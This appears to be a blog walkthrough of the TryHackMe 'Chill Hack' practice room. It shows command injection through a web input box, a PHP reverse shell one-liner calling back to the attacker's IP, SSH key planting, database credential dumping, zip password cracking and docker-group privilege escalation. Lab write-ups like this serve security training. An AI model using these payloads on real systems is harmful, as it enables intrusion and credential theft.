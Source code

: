 ```yaml
---
layout: post
title: Tryhackme - Chill Hack
date: 2020-12-13 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,ftp]
---
```


---
<p>Chill Hack is a beginner level Tryhackme room. It was fun doing this room since there are multiple ways to get to the credentials. The final objective is to get the user and root flag. In this post I'll be explaining how I cleared this room.</p>
<br>
![cover_image](/assets/img/tryhackme/chillhack/1.png)

**Author** | Anurodh
**Description** | This room provides the real world pentesting challenges.

Deploy the VM and let's go.

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/chillhack/nmap_scan.png)
<br>
From the nmap scan we can see the ports ```21/ftp```, ```22/ssh```, ```80/http``` are open. ```Anonymous``` login is allowed in ```ftp``` service.

I logged into the ftp server and found a text file. I downloaded it using the ```get file-name``` command. 
<br>
![ftp_server](/assets/img/tryhackme/chillhack/2.png)
<br>
I read the file and just noted it as a hint and switched to enumerate the http service.
<br>
![home_page](/assets/img/tryhackme/chillhack/3.png)
<br>
Use gobuster to bruteforce the hidden directories.
<br>
![gobster_1](/assets/img/tryhackme/chillhack/4.png)
<br>
I visited the most interesting directory ```/secret``` and I found only a input box with the placeholder ```Command```. So, I gave ```ls``` to check if it really executes the command and the site changes to this background image.
<br>
![alert_page](/assets/img/tryhackme/chillhack/5.png)
<br>
Then I tried ```whoami``` and the page successfully returned the output.
<br>
![whoami_command](/assets/img/tryhackme/chillhack/6.png)
<br>
So, I used this to bypass without trigerring the alert.
<br>
<pre>whoami;ls -la</pre>
<br>
![long_listing](/assets/img/tryhackme/chillhack/7.png)
<br>
Note that ```; (semicolon)``` in linux is used to split one command from another. 


## <ins>Reverse Shell</ins>
---
Since that worked, I grabbed the php reverse shell payload and used it with ```whoami``` to bypass the alert. Remember to open a netcat listener in your local machine before executing the payload.
<br>
<pre>whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'</pre>
<br>
![reverse_shell1](/assets/img/tryhackme/chillhack/8.png)
<br>

## <ins>User flag</ins>
---
I used ```sudo -l``` to list the files that can be run as other users.
<br>
![sudo_list](/assets/img/tryhackme/chillhack/9.png)
<br>
I read the file and found a way to gain shell access for the user ```apaar```.
<br>
![helpline_cat](/assets/img/tryhackme/chillhack/11.png)
<br>
Take a look at the second input ```$msg```. The code says that anything we put in the variable ```msg``` will be dumped into ```/dev/null``` which is like a blackhole...that is we cannot retrieve anything that is put into it. So, we can spawn a shell before it dumps into the ```/dev/null```.  
<br>
First run the file as the user ```apaar```.
<br>
<pre>sudo -u apaar ./.helpline.sh</pre>
<br>
Then, give a arbitary input for the first variable. Give ```/bin/bash``` as second input. And finally use ```python pty``` to get a stable shell.
<br>
![shell_apaar](/assets/img/tryhackme/chillhack/12.png)
<br>
The ```user flag``` is in the ```home``` directory of the user ```apaar``` in file named ```local.txt```.


## <ins>Getting user anurodh</ins>
---
I found more than one way to get to the credentials of the user ```anurodh```. 

### <ins>Method 1</ins>
---
After running ```linpeas.sh``` I found some ports running which are accessible only by the ```localhost```.
<br>
![linpeas_port](/assets/img/tryhackme/chillhack/15.png)
<br>
I generated a ```ssh key pair``` in my local machine.
<br>
<pre>ssh-keygen</pre>
<br>
Enter the path for it to generate new ```ssh key pair``` in the local machine. Copy the contents of the ```public key (id_rsa.pub)``` and in the remote machine append it to the ```/home/apaar/.ssh/authorized_keys``` file.
<br>
<pre>echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys</pre>
<br>
Now we can ssh into the machine using the private key ```id_rsa```.
<br>
<pre>ssh -L 9001:127.0.0.1:9001 apaar@10.10.233.203 -i id_rsa</pre>
<br>
Here, we are basically tunnelling the port ```9001``` from the remote machine into our local machine ```127.0.0.1:9001```.
<br>
![ssh_tunnel](/assets/img/tryhackme/chillhack/17.png)
<br>
Now we can access that service through our browser using ```127.0.0.1:9001```.
<br>
![login_page](/assets/img/tryhackme/chillhack/18.png)
<br>


#### <ins>Sub-Method 1</ins>
---
I tried some common credentials but had no luck with it. After searching through the files for a bit I found the credentials for ```mysql``` in the file ```/var/www/files/index.php```.
<br>
![mysql_creds](/assets/img/tryhackme/chillhack/19.png)
<br>
I connected to the ```mysql service``` from the remote machine.
<br>
<pre>mysql -u root -p</pre>
<br>
Use the ```mysql password``` that we just found. Then I used some commands to finally arrive at the credentials.
<br>
<pre>
SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
</pre>
<br>
![webportal_credentials](/assets/img/tryhackme/chillhack/22.png)
<br>
I used [crackstation](crackstation.net) to crack the MD5 passwords. Then, I logged into the webportal with the credentials.
<br>
![portal_login](/assets/img/tryhackme/chillhack/24.png)
<br>
Download the image in the page ```/hacker.php```.


#### <ins>Sub-Method 2</ins>
---
Without getting the credentials to the webportal and mysql we can still get to the page ```/hacker.php```. Use ```gobuster``` with the common wordlist.
<br>
<pre>gobuster dir -u http://127.0.0.1:9001/ -w /usr/share/dirb/wordlists/common.txt -x php </pre>
<br>
![gobuster_webportal](/assets/img/tryhackme/chillhack/23.png)
<br>
Download the image in the page ```/hacker.php```.

---
**Before getting the password for the user ```anurodh``` I'll also explain the second method which is wayyy easier than the first one.**


### <ins>Method 2</ins>
---
This is the method that I actually used to clear the room. It was just a coincidence that I saw the ```/files``` directory in the parent directory after I got the reverse shell. I tried using ```python -m SimpleHTTPServer 8080``` to transfer the files but it throwed an error stating that ```python2``` was not installed. Then, I used the ```python3 http server```.
<br>
<pre>python3 -m http.server 8080</pre>
<br>
And I downloaded the contents using browser from my local machine.

After I transferred everything in the ```/files``` directory to my local machine, I analysed it. And finally I got the password for the user ```anurodh```.

---
**Now let's continue from the part where we got the ```.jpg``` file from the ```/files``` directory.**

Use ```steghide``` to extract the contents of the image.
<br>
<pre>steghide --extract -sf hacker.jpg</pre>
<br>

The ```zip file``` is password protected. Use ```fcrackzip``` to bruteforce the password.
<br>
<pre>fcrackzip -u -v -D -p ~/Wordlists/rockyou.txt backup.zip</pre>
<br>
![zip_password](/assets/img/tryhackme/chillhack/26.png)
<br>

The password for the user ```anurodh``` can be found as a base64 encoded string in the inflated ```php``` file. Decode it.
<br>
![pass_base64](/assets/img/tryhackme/chillhack/27.png)
<br>

Change the user to ```anurodh``` using ```su anurodh``` and use the password that we just found.


## <ins>Root flag</ins>
---
After using ```id```, it seems that the user is in the ```docker``` group.
<br>
![id_docker](/assets/img/tryhackme/chillhack/28.png)
<br>
I grabbed the payload to get the shell access to root from ```gtfobins```.
<br>
![gtfo_bins](/assets/img/tryhackme/chillhack/29.png)
<br>
The root flag is in the file named ```proof.txt```.
<br>
![root_flag](/assets/img/tryhackme/chillhack/30.png)
<br>

I had fun doing this room. Hope you had too!!!

That's it folks. Happy hacking!!!
